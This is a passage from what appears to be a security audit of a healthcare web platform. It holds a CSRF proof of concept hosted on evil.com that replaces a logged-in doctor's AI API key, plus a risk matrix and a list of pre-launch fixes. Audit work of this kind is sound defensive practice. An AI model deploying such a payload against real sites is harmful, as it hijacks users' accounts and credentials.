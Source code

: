 
### Exploit 4: CSRF Attack
```html
<!-- Host this on evil.com -->
<img src="https://holilabs.com/api/settings"
     onload="fetch('https://holilabs.com/api/settings', {
       method: 'POST',
       body: JSON.stringify({
         ai: { anthropicKey: 'ATTACKER_KEY' }
       })
     })">
```

When doctor visits evil.com while logged in, their API key gets replaced with attacker's.

---

## 📊 RISK MATRIX

| Vulnerability | Likelihood | Impact | Priority |
|--------------|------------|--------|----------|
| Plain text API keys | HIGH | CRITICAL | P0 |
| Cross-tenant access | MEDIUM | CRITICAL | P0 |
| AI prompt injection | MEDIUM | HIGH | P0 |
| Rate limit memory leak | HIGH | HIGH | P0 |
| No CSRF protection | MEDIUM | HIGH | P0 |
| No email verification | HIGH | MEDIUM | P1 |
| Error info leakage | HIGH | LOW | P1 |
| No MFA enforcement | LOW | HIGH | P1 |

---

## ✅ RECOMMENDATIONS (Priority Order)

### Phase 1: Pre-Launch (Must Fix)
1. ✅ Encrypt API keys in database (AES-256-GCM)
2. ✅ Implement tenant isolation for patient data
3. ✅ Add CSRF protection to all state-changing APIs
4. ✅ Replace in-memory rate limiting with Redis
5. ✅ Sanitize AI prompt inputs
6. ✅ Add email verification to signup
7. ✅ Remove error details in production responses
8. ✅ Implement token expiry validation
9. ✅ Add XSS protection to custom messages
10. ✅ Set up audit log streaming to S3
